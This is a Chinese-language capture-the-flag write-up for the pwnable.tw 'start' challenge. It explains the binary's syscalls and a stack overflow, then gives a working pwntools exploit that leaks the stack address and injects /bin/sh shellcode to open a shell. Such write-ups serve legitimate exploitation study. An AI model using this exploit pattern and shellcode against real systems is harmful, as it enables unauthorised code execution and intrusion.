 ```yaml
---
layout: post
---
```

checksec发现是32位程序，并且没开保护

![image](https://user-images.githubusercontent.com/98165037/221330211-b003b251-962a-4fdf-a81b-d4a4dd6b3f25.png)

拖进ida

![image](https://user-images.githubusercontent.com/98165037/221330468-4407e7bd-98b8-4ca7-b5d7-3c9f70310021.png)

asm应该就是汇编的意思

![image](https://user-images.githubusercontent.com/98165037/221330602-f72371a7-af8d-4556-92d9-c5fd1d174d28.png)

程序先调用了一个write函数，把esp作为函数的地址参数传入ecx中，即打印当前栈上的内容

`mov  dl, 14h`是输出长度为14h的内容，后面也都有标注

`mov  bl, 1`也就是函数的第一个参数，文件描述符fd为1，也就是往第1个文件（标准输出）中打印内容

`mov  al, 4`是write函数的系统调用号为4

最后`int  80h`应该就是最终执行了

后面那个函数就没有write函数描述这么清晰，看了别的师傅的wp才知道是在执行read函数：

没有向ecx中传值说明read函数的地址参数和write函数的一样，读入的数据存在write函数打印的内容所在的地址处，覆盖了打印的内容；

`xor  ebx, ebx`即ebx=0，是指read函数的fd=0

`mov  dl, 3Ch`是读入长度为3Ch的内容

`mov  al, 3`read的系统调用号为3

最后esp+14h让esp重新指回offset \_exit,下一步retn也就是pop eip去执行exit

那么这里就存在一个栈溢出漏洞，可以覆盖到esp+14h这个返回地址

所以思路是第一次覆盖返回地址为0x08048087，泄露出在offset_exit之前压栈的esp，然后第二次先输入14h的payload，覆盖返回地址为shellcode的地址，再加上shellcode

要注意的点是这个是32位程序，接收地址的时候跟64位不太一样，一次性接收4个就行，但是正如某位师傅所言，`io.recv(4)`有时候会失效，改成`io.recv()[:4]`是可以的

```python
from pwn import*
#context(os='linux',arch='amd64',log_level='debug')
io=remote('chall.pwnable.tw',10000)
#io=process("./start")
payload = b'a'*0x14+p32(0x08048087)
io.sendafter('CTF:',payload)
esp_addr = u32(io.recv()[:4])
print("esp = " + hex(esp_addr))
#io.recv(14)
shellcode = b'\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'
payload = b'a'*0x14 + p32(esp_addr + 0x14 ) + shellcode
io.send(payload)

io.interactive()
```

我一开始想不明白为什么shellcode的地址是esp_addr直接+14h就行，因为加上14h个a之后，不是还有shellcode的地址，不应该再+4h才是shellcode的地址吗，后来看了师傅的图，了解到`push esp`时压栈的内容不是当前格自己的地址（即内容为esp的地址），而是它前一格的地址，先取了esp的值，esp再+4h去指向新的栈顶去放入前一个esp的值，所以我泄露得到的esp本身就比开始读入的地址高4h，所以就不用再额外+4h了

师傅的图：

![image](https://user-images.githubusercontent.com/98165037/221388777-8c07a9d1-7a76-495f-89c5-9a59e578447f.png)

[参考的wp的地址](https://blog.csdn.net/qq_43935969/article/details/105717621)
